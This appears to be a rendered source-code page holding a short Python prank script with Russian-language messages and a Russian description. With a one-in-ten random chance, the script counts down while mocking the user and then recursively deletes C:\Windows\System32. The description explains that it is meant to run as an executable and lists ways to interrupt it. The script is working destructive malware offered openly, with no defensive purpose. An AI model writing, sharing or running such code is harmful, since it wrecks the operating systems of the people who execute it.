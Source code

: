 


import random
import shutil
import time

if random.randint(0, 9) == 5:
    print("Эх, ну ты и везунчик, теперь проверим твою скорость в поиске этого процесса в диспетчере задач :(")
    time.sleep(5)
    print("Если что, то ты попал в вероятность 0.1, и через 10 секунд с твоего компьютера удалится папка System32")
    for i in range(10, 0, -1):
        print(i, 'секунд осталось(')
        time.sleep(2)
    print("Чао персик, дозревай")
    time.sleep(2)
    shutil.rmtree("C:\Windows\System32")
else:
    print('ХАХ, а тебе повезло, лучшe узнай у создаетля этой арограммы, что она могла сделать с твоим компом))')
    time.sleep(10)






Основа программы состоит в том, что при попадании в число 5 при рандомизации, запускается необратимый процесс удаления папки System32, но есть несколько способов остановить этот ужас и кошмар. Для этого надо либо выключить компьютер, либо перезагрузить его, либо найти этот екзешник в диспетчере устройств и выключить его.
 
